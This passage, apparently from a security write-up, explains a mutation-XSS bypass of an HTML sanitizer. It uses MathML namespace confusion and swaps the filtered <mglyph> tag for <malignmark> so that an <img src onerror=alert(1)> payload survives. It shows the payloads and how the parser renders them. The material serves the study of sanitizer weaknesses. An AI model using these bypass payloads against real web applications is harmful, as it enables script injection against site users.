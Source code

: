 We are now in a pure HTML namespace.

n = mtext

```html
<form>
   <mglyph>
      <style></math><img src onerror=alert(1)></style>
   </mglyph>
</form>
```

Rendered as:

```html
<form> [HTML]
  <mglyph> [HTML]
    <style> [HTML]
      </math><img src onerror=alert(1)>
    </style> [HTML]
  </mglyph> [HTML]
</form> [HTML]
```

After removing the 6-letter tag `<mglyph>`, we would get:

```html
<form>
   <math>
      <mtext></mtext>
   </math>
</form>
```

Since `<mglyph>` is removed, the payload doesn't execute. But the original research shows another tag with similar behavior.

If we replace `<mglyph>` with `<malignmark>`, which isn't filtered due to length, processing continues.

```html
<malignmark>
  <style>
    </math><img src onerror=alert(1)>
  </style>
</malignmark>
```

Rendered as:

```html
<malignmark> [HTML]
  <style> [HTML]
    </math><img src onerror=alert(1)>
  </style> [HTML]
</malignmark> [HTML]
```
